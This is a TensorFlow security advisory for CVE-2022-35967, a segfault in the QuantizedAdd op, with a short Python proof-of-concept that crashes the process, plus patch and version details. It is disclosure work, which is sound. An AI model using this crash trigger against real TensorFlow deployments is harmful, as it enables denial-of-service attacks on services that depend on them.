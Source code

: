 ## TFSA-2022-099: Segfault in `QuantizedAdd`

### CVE Number
CVE-2022-35967

### Impact
If `QuantizedAdd` is given `min_input` or `max_input` tensors of a nonzero rank, it results in a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

Toutput = tf.qint32
x = tf.constant(140, shape=[1], dtype=tf.quint8)
y = tf.constant(26, shape=[10], dtype=tf.quint8)
min_x = tf.constant([], shape=[0], dtype=tf.float32)
max_x = tf.constant(0, shape=[], dtype=tf.float32)
min_y = tf.constant(0, shape=[], dtype=tf.float32)
max_y = tf.constant(0, shape=[], dtype=tf.float32)
tf.raw_ops.QuantizedAdd(x=x, y=y, min_x=min_x, max_x=max_x, min_y=min_y, max_y=max_y, Toutput=Toutput)
```

### Patches
We have patched the issue in GitHub commit [49b3824d83af706df0ad07e4e677d88659756d89](https://github.com/tensorflow/tensorflow/commit/49b3824d83af706df0ad07e4e677d88659756d89).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
